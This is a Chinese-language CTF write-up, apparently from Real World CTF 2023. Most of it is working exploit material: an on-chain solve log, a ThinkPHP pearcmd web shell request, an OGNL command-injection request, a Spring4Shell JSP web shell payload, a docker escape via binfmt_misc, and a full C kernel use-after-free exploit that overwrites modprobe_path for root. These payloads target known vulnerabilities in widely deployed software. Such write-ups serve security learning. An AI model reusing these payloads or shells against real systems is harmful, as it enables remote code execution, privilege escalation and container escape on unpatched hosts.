[Logs][AttributeDict({'address': '0x46CFcDa5819F8e98e17Ea901ab1D34843FF8De99', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000c615a812208f7f380019c5fa442f6dcee7f41b32'), HexBytes('0x0000000000000000000000001e104e8594299b97f568c3c271c374f6a45a5aea')], 'data': '0x0000000000000000000000000000000000000000000000000de0b6b3a7640000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 0, 'removed': False}), AttributeDict({'address': '0xC5CeFf49C87aF413aC90973e0a9c419e8788CADB', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000c3a4ed176600f1b5c6cdaa74c76d7ebf6275ba7c'), HexBytes('0x0000000000000000000000001e104e8594299b97f568c3c271c374f6a45a5aea')], 'data': '0x0000000000000000000000000000000000000000000000000de0b6b3a7640000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 1, 'removed': False}), AttributeDict({'address': '0xc3A4eD176600F1b5c6CDaa74c76d7ebf6275ba7c', 'topics': [HexBytes('0x1c411e9a96e071241c2f21f7726b17ae89e3cab4c78be50e062b03a9fffbbad1')], 'data': '0x0000000000000000000000000000000000000000000000008ac7230489e800000000000000000000000000000000000000000000000000007ce66c50e2840000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 2, 'removed': False}), AttributeDict({'address': '0x46CFcDa5819F8e98e17Ea901ab1D34843FF8De99', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x0000000000000000000000001e104e8594299b97f568c3c271c374f6a45a5aea'), HexBytes('0x000000000000000000000000c3a4ed176600f1b5c6cdaa74c76d7ebf6275ba7c')], 'data': '0x0000000000000000000000000000000000000000000000000de0b6b3a7640000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 3, 'removed': False}), AttributeDict({'address': '0xc3A4eD176600F1b5c6CDaa74c76d7ebf6275ba7c', 'topics': [HexBytes('0x1c411e9a96e071241c2f21f7726b17ae89e3cab4c78be50e062b03a9fffbbad1')], 'data': '0x00000000000000000000000000000000000000000000000098a7d9b8314c00000000000000000000000000000000000000000000000000007ce66c50e2840000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 4, 'removed': False}), AttributeDict({'address': '0xc3A4eD176600F1b5c6CDaa74c76d7ebf6275ba7c', 'topics': [HexBytes('0xd78ad95fa46c994b6551d0da85fc275fe613ce37657fb8d5e3d130840159d822'), HexBytes('0x0000000000000000000000001e104e8594299b97f568c3c271c374f6a45a5aea'), HexBytes('0x0000000000000000000000001e104e8594299b97f568c3c271c374f6a45a5aea')], 'data': '0x0000000000000000000000000000000000000000000000000de0b6b3a76400000000000000000000000000000000000000000000000000000de0b6b3a764000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000de0b6b3a7640000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 5, 'removed': False}), AttributeDict({'address': '0xC5CeFf49C87aF413aC90973e0a9c419e8788CADB', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x0000000000000000000000001e104e8594299b97f568c3c271c374f6a45a5aea'), HexBytes('0x000000000000000000000000d1262d03b3f0f5ae0bdc8ab007c5d73e6036f848')], 'data': '0x0000000000000000000000000000000000000000000000000de0b6b3a7640000', 'blockNumber': 65075, 'transactionHash': HexBytes('0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2'), 'transactionIndex': 0, 'blockHash': HexBytes('0x3943bafcf7bb0c5762372b1939c2ee6ac846b9c9c66d3b63dad000493bca1442'), 'logIndex': 6, 'removed': False})]
2023-01-07 22:54:50.323 | SUCCESS  | Poseidon.Blockchain:ReadOnlyCallFunction:612 - 
[Contract][ReadOnlyCallFunction]
[ContractAddress]0x1e104E8594299b97f568c3C271c374f6a45a5AeA
[Function]isSolved()
[Result]True
```
## snake
apktools 反编译得到smai代码，然后把图中this.length>55条件取反，再编译成apk正常玩游戏，吃掉第一个后面的接着就是flag
这里是对蛇的长度判读，正常玩需要长度大于55后才会出现flag，取反后可以直接出现flag。


## Be-a-Language-Expert
tp已知洞
```
GET /?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['a']);?>+/tmp/b.php HTTP/1.1
Host: 47.98.124.175:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```


## babyCurve
曲线方程数学公式: $ y^{2}=x^{3}+2x^{2}+x $，离散对数4470735776084208177429085432176719338，计算子群的阶，找真正的离散对数值。

## Be-a-Wiki-Hacker
```
GET  //%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22cat%20/flag%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
```

## Spring4Shell
```
POST / HTTP/1.1
Host: 47.98.216.107:35061
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:108.0) Gecko/20100101 Firefox/108.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 766

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=chaitin/susu&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
webapps名称换成了chaitin，把webapps改掉就可以直接打

## Evil MySQL Server
MySQL服务端读取客户端文件漏洞


## Yummy Api
YApi NoSQL注入导致远程命令执行漏洞


## Be-a-Famicom-Hacker
`https://tieba.baidu.com/p/20384367?pn=1`

玩游戏通关到最后按这两个键出flag


上上下下左右左右ba

## Be-a-PK-LPE-Master
用户名: ubuntu 密码: root

ubuntu用户在sudo组里，sudo -i获取root shell

当然正解是利用pkexec提权，github上有很多直接可以利用

用户名和密码都是猜的，题目描述啥也没说，不是很懂这一题

## Be-a-Docker-Escaper-2
挂载了/proc/sys/fs/binfmt_misc，那么就可以通过注册新的解释器来逃逸

注册#!/bin/sh的解释器，然后再开启一个ssh链接就可以完成逃逸

参考链接: http://paper.vulsee.com/KCon/2021/Container%20escape%20in%202021.pdf

EXP:
```python
#!/bin/bash

path=$(mount | grep upperdir)
path=${path##*upperdir=}
path=${path%%,*}

echo '#!/bin/bash' > /tmp/test.sh
echo '' >> /tmp/test.sh
echo 'cat /root/flag > '$path'/tmp/flag' >> /tmp/test.sh

chmod a+x /tmp/test.sh

echo ':sh:M::\x23\x21\x2f\x62\x69\x6e\x2f\x73\x68::'$path'/tmp/test.sh:' > /binfmt_misc/register
```

## Digging into Kernel 3
一个任意size的uaf，不限制uaf的次数，并且没有打开slab_freelist_hardened

既然没有打开slab_freelist_hardened，那么double_free的任意地址写就是可行的，那么就需要我们泄露kernel地址

显然题目中没有给任何泄露手段，那么就需要struct msg来进行泄露

首先制作一个0x20大小的uaf，接着创建一个0x1018大小的struct msg

此时0x20部分的struct msg会被放入uaf中，将其free，分配一个struct shm_file_data

此时在输出struct msg就可以成功泄露kernel地址

特别要注意，由于内核关闭了CONFIG_CHECKPOINT_RESTORE，MSG_COPY无法使用

并且由于SElinux的开启，struct msg的security指针不能被破坏

因此进行uaf的结构体的前8个字节必须要为0，目前似乎仅有struct shm_file_data能满足条件

最后直接double_free写modprobe_path就行

EXP:
```python
#include <stdio.h>
#include <fcntl.h>
#include <poll.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <signal.h>
#include <unistd.h>
#include <syscall.h>
#include <pthread.h>
#include <linux/sched.h>
#include <sys/shm.h>
#include <sys/msg.h>
#include <sys/ipc.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

struct request
{
	int32_t idx;
	int32_t size;
	void *ptr;
};

int dev_fd;

uint64_t kernel_base, modprobe_path;

void err(char *error)
{
	fprintf(stderr,error);
	exit(-1);
}

int make_queue(key_t key,int msgflg) 
{
	int result;
	if ((result=msgget(key,msgflg))==-1) 
	{
		perror("[X] Msgget Failure");
		exit(-1);
	}
	return result;
}

void send_msg(int msqid,void *msgp,size_t msgsz,int msgflg) 
{
	if (msgsnd(msqid,msgp,msgsz,msgflg)==-1)
	{
		perror("[X] Msgsend Failure");
		exit(-1);
	}
	return;
}

ssize_t get_msg(int msqid,void *msgp,size_t msgsz,long msgtyp,int msgflg) 
{
	ssize_t result;
	result=msgrcv(msqid,msgp,msgsz,msgtyp,msgflg);
	if (result<0)
	{
		perror("[X] Msgrcv Failure");
		exit(-1);
	}
	return result;
}

void remove_queue(int msqid,int cmd,struct msqid_ds *buf)
{
	if ((msgctl(msqid,cmd,buf))==-1) 
	{
		perror("[X] Msgctl Failure");
		exit(-1);
	}
}

int shmid_open()
{
	int shmid;
	if ((shmid=shmget(IPC_PRIVATE,100,0600))==-1)
	{
		puts("[X] Shmget Error");
		exit(0);
	}
	char *shmaddr=shmat(shmid,NULL,0);
	if (shmaddr==(void*)-1)
	{
		puts("[X] Shmat Error");
		exit(0);
	}
	return shmid;
}

void new(int32_t idx, int32_t size, void *ptr)
{
	struct request request_t;
	request_t.idx = idx;
	request_t.size = size;
	request_t.ptr = ptr;
	
	ioctl(dev_fd, 0xDEADBEEF, &request_t);
}

void delete(int32_t idx)
{
	struct request request_t;
	request_t.idx = idx;
	
	ioctl(dev_fd, 0xC0DECAFE, &request_t);
}

void leak_kernel_base()
{
	char *buf = malloc(0x2000);
	uint64_t *recv_msg = malloc(0x2000);
	int qid;
	struct msg *message = (struct msg *)buf;
	int size = 0x1018;
	
	memset(buf, 0x61, 0x2000);
	
	new(0, 0x20, buf);
	delete(0);
	
	memset(buf, 0x61, 0x2000);
	qid = make_queue(IPC_PRIVATE, 0666|IPC_CREAT);
	send_msg(qid, message, size-0x30, 0);
	
	delete(0);
	
	shmid_open();
	
	get_msg(qid, (char *)recv_msg, size, 0, IPC_NOWAIT|MSG_NOERROR);
	
	kernel_base = recv_msg[0x1fb] - 0x19ac6c0;
	
	free(buf);
	free(recv_msg);
}

void arbitrary_write()
{
	uint64_t *buf = malloc(0x100);
	
	memset(buf, 0, 0x100);
	
	new(0, 0x20, buf);
	
	delete(0);
	delete(0);
	
	buf[0x2] = kernel_base + 0x18510a0;
	
	new(0, 0x20, buf);
	
	new(0, 0x20, buf);
	
	memset(buf, 0, 0x100);
	strcpy((char *)buf, "/tmp/a");
	
	new(0, 0x20, buf);
}

int main()
{
	system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
	system("echo '#!/bin/sh\nchmod 777 /flag' > /tmp/a");
	system("chmod +x /tmp/a");
	system("chmod +x /tmp/dummy");
	
	dev_fd = open("/dev/rwctf",O_RDWR);
	if (dev_fd < 0)
		err("[X] Device Open Error");
		
	leak_kernel_base();
	
	modprobe_path = kernel_base + 0x18510a0;
	printf("[+] kernel_base = 0x%lx\n", kernel_base);
	printf("[+] modprobe_path = 0x%lx\n", modprobe_path);
	
	arbitrary_write();
	
	system("/tmp/dummy");
	system("/bin/sh");
}
```